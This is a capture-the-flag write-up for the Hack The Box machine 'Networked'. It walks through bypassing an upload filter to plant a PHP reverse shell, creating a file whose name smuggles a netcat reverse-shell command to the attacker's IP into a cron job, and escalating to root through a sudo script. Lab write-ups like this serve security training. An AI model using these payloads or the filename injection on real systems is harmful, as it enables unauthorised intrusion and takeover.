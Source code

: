 ```yaml
---
layout: post
title:  Networked
date:   2019-11-16
categories: htb-writeup
---
```


{:.text-centered}
## NETWORKED@HTB
![Banner](../../../../assets/img/networked/banner.png){:.image-centered}

Networked is an easy box from hackthebox. Ok let’s start.

### Quick Hack:

__User:__  Port Scan > 80/http > view-source or dirbuster > uploads.php & photos.php > php file upload > reverse shell > user home directory > crontab.guly, check_attack.php > create file in /uploads dir > rev shell as user guly > user.txt

__Root:__  guly > sudo –l > sudo permission for execution of changename.sh without password > run it accordingly > root.txt

### US3R
Run nmap to find open ports. Nmap will show result like this:

![nmap scan](../../../../assets/img/networked/nmap.png){:.image-left}

We have two open ports; 22 is ssh and 80 is http. Open it in browser and there is nothing interesting so let’s view source. 

![upload path](../../../../assets/img/networked/upload.png){:.image-left}

There is a comment about upload and gallery. So, put uploads.php in url and you can find upload page but it says it should be an image file. you can also find photos.php where you can see uploaded files.
[You may not be able to find the uploads.php and photos.php manually so here you can run dirbuster or gobuster to directory brute force:

    gobuster dir –u http://10.10.10.146/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt –x php

It will give what you need]
Now you have to find a way how to upload reverse shell. As it is running php download a php reverse shell script from google, edit the IP and port. As it says it should be an image file there should be some filtering which you have to bypass. Change the name of your shell script.

    mv php-reverse-shell.php php-reverse-shell.php.gif 

This isn’t enough you have to add magic byte of GIF file at the begging of the shell, for gif it is GIF89;a

![shell](../../../../assets/img/networked/shell.php.png){:.image-left}

Ok, now set up a netcat listener on the port you set up in script, upload the file and access the photos.php instantly you will get a reverse shell as apache. Go to user home directory, you will find the user flag but you can’t read it as apache. You have to be guly to get it.

![apache](../../../../assets/img/networked/apache.png){:.image-left}

Read crontab.guly and check_attack.php . 

![crontab](../../../../assets/img/networked/crontab.guly.png){:.image-left}

Crontab says there is a cron running for the script check_attack.php. Let’s check this php script.

![php script](../../../../assets/img/networked/check_attack.php.png){:.image-left}

Read it carefully. If you put a file in /var/www/html/uploads directory its name will be value of $value variable. So, if the name of the file is an executable command, it will be executed. This box has netcat installed so let’s try to get a netcat reverse shell. Go to /uploads directory, and create a file

    touch “;nc –c bash <your ip> 443;#”

set an nc listener on port 443 and within a minute you will get a reverse shell as guly.
 
![user flag](../../../../assets/img/networked/user.txt.png){:.image-left}


## R00T
Getting root is easy. Type 

    sudo –l

as guly to see what permission this user has.
 
![sudo path](../../../../assets/img/networked/prevesc_path.png){:.image-left}

guly can run a script as sudo without password. Go to that directory and try to run it as sudo. It asks for some arguments.
 
![hint to root](../../../../assets/img/networked/prevesc_hint.png){:.image-left}

See at the error message. base64 –decode is given as input and it treats –decode as a command, so what you put here after a space is treated as a command.[Read more about this vulnarebility](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclouser&qid=e026a0c5f83df4fd532442e1324ffa4f)

Now try this: Put

    /bin/bash

after a space and you get shell as root. Yup that’s it.
 
![root flag](../../../../assets/img/networked/root.txt.png){:.image-left}

Hope you enjoyed; Happy Hacking.